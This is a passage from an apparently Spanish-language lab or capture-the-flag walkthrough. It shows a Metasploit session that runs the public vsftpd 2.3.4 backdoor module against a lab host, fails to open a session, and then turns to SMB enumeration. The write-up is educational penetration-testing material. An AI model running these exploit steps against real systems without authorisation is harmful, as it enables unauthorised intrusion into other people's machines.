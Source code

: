 ```
```

Como podemos ver, la vulnerabilidad es tan popular que tiene su propio exploit en Metasploit.

Utilizando `metasploit-framework`, tratemos de explotar la vulnerabilidad:

```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use 0
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exit
```

Como pudimos observar, aunque el exploit se ejecuto correctamente, no se reconecto al backdoor. Sin detenernos demasiado tiempo en explotar una vulnerabilidad, pasemos a enumerar mas el servicio de SMB.

# SMB version enum
